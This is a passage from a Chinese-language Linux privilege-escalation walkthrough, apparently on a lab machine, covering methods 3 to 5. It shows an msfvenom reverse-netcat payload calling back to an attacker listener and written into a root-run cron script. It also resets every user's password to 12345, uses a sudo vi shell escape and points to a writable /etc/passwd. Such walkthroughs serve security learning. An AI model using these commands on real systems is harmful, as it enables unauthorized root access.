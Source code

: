 方法 3

![](https://mmbiz.qpic.cn/mmbiz_png/7EQMr4U945rLwYeErsWD5zaHJCn4D1KHes5XGibasJicOSjM92OgBYUu7vmZ7B2CRyy4Snm6uAzSiaoTvazoMyMWA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/FlEB4lWebiag9yDkiamTUoQnYavdMPPib1rCAKrlU7yK72gCw3FJU8BwicSvbVa2qWjlMTKmBuG0XCclInCj1jtgPA/640?wx_fmt=png)

在前面的截图中，有看到在 crontab 中，每 5 分钟使用 root 特权运行 autoscript.sh 文件...

借鉴方法 2，使用相同的脚本文件，可以借助 Path 变量方法更改所有用户的密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8ZrFtQRI7HfdYTyVZqCiavQtdISyhOBRAhz8nD75mwFl3fiafXTzje21MA/640?wx_fmt=png)

使用 echo 和 chpasswd 命令将现有密码替换为新密码 12345... 然后使用 su 命令切换到 user4 帐户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8ZdwUJUV2bnTLB0ia0bMDHOoaO6S55KaVBeibUZiagVoViapALic6gjCJZOkg/640?wx_fmt=png)

在桌面文件夹中看到文件 autoscript.sh....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8ZgqPguZVT6XF6uEq8ic77uIYEb1dRcPibdL5TI5nSVBcdFnrlTXb87N0g/640?wx_fmt=png)

```
msfvenom  -p  cmd/unix/reverse_netcat lhost=192.168.182.141  lport=8888  R
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8Z0mtnZn9zBUr1LoH1z3sNDDnD9JKECZKtIiaOn2PEDq1m1VYGKpKd6jw/640?wx_fmt=png)

```
echo "shellcode" > autoscript.sh
```

将代码复制到 autoscript.sh 文件后，执行该文件，并在 kali 上启动了 netcat 侦听器，等待 shell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8ZlA8LibhEvPoH5SJ5dA8HnhkjYBlg4ebCyRahvq7ia0zVKFdib6iaia0WNgw/640?wx_fmt=png)

成功获得 root...

方法 4

![](https://mmbiz.qpic.cn/mmbiz_png/7EQMr4U945rLwYeErsWD5zaHJCn4D1KHes5XGibasJicOSjM92OgBYUu7vmZ7B2CRyy4Snm6uAzSiaoTvazoMyMWA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/FlEB4lWebiag9yDkiamTUoQnYavdMPPib1rCAKrlU7yK72gCw3FJU8BwicSvbVa2qWjlMTKmBuG0XCclInCj1jtgPA/640?wx_fmt=png)

使用与上述相同的方法将所有用户的密码更改为 12345，并在用户之间切换来检查更多漏洞，发现 user8 对 vi 编辑器具有 sudo 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8ZVVxwQPiaiaTLVr6ozVL3DWGSos5rxvPPFBEKRGQv6vg3k8geZgNKE9pw/640?wx_fmt=png)

准备使用 sudo 打开 vi 编辑器，并插入 sh 命令...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8ZFtWjOicVeTfdTv5RqtCwzDahtcVtIicCn2U1YcWulYvV3Vr6n7Tws1kQ/640?wx_fmt=png)

输入:!sh，获得了 root shell...

方法 5

![](https://mmbiz.qpic.cn/mmbiz_png/7EQMr4U945rLwYeErsWD5zaHJCn4D1KHes5XGibasJicOSjM92OgBYUu7vmZ7B2CRyy4Snm6uAzSiaoTvazoMyMWA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/FlEB4lWebiag9yDkiamTUoQnYavdMPPib1rCAKrlU7yK72gCw3FJU8BwicSvbVa2qWjlMTKmBuG0XCclInCj1jtgPA/640?wx_fmt=png)

继续进行用户枚举，发现 user7 是 gid 为 0 的根组的成员...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP3J9v8uyzIqNTFFfPjiaW8ZsBrGQibjzI1r8BhS3q0MgIlAdu4uw2ZScTuNkGNFxlVY7Ayic0AGOJlw/640?wx_fmt=png)

从 LinEnum 扫描中知道 / etc/passwd 文件对于用户是可写的，user7 可以编辑 / etc/passwd 文件...
